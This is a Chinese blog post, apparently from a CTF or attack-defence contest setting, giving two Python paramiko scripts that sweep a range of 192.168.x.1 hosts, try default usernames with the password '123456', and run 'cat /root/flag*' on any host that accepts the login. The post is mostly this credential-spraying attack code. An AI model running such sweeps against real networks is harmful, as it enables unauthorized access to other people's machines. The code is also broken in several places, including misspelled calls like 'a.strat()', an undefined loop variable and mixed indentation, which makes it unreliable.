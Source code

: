 ```yaml
---
title: Python-SSH批量登陆并执行命令
date: 2018-05-04
tag: python
layout: post
---
```

# Python-SSH批量登陆并执行命令


### 
``` python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
from time import ctime
usernm = ["admin","guest","root"]
passwd = "123456"
def ssh():
	for i in range(1,254):
		for user in usernm:
			try:
			    host = "192.168.%s.1"%i
			    s=paramiko.SSHClient()
			    #创建ssh对象
			    s.load_system_host_keys()
			    s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
			    #自动加载主机密钥 yes\no
			    s.connect(hostname=host,username=user,password=passwd)
			    stdin,stdout,stderr = s.exec_command('cat /root/flagvalue.txt')
                print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,user,ctime())
			    dd = stdout.read()
                print dd
			    stdin,stdout,stderr = s.exec_command('exit')
			    s.close
                if dd != None:
	                dd = None
	                break
	       except:
		       pass
print ssh()

```

> 跨网段批量登陆时速度明显会变慢

下面时运行结果图：
![运行结果](https://img-blog.csdn.net/20180504092159976?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)


#多线程版本

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
import threading
from time import ctime,sleep 
def ssh():
    usernm = ["admin","guest","root"]
	ip = "192.168.%s.1"%i
	for user in usernm:
                try:
					s=paramiko.SSHClient()	
					s.load_system_host_keys()
					s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
					s.connect(hostname=ip,username=user,password='123456')
					stdin,stdout,stderr = s.exec_command('cat /root/flag*')
                    print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,uer,ctime())
					dd = stdout.read()
                    print dd
                            
					stdin,stdout,stderr = s.exec_command('exit')
					s.close
                    if dd != None:
                       dd = None
                       break
                except:
                    pass

for i in range(100,200):
        a=threading.thread(target=ssh,arg=())
        sleep(0.1)
		a.strat()
```	


运行效果：
![多线程](https://img-blog.csdn.net/20180504165634332?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![showcase](/assets/images/2018/lockshowcase.gif)
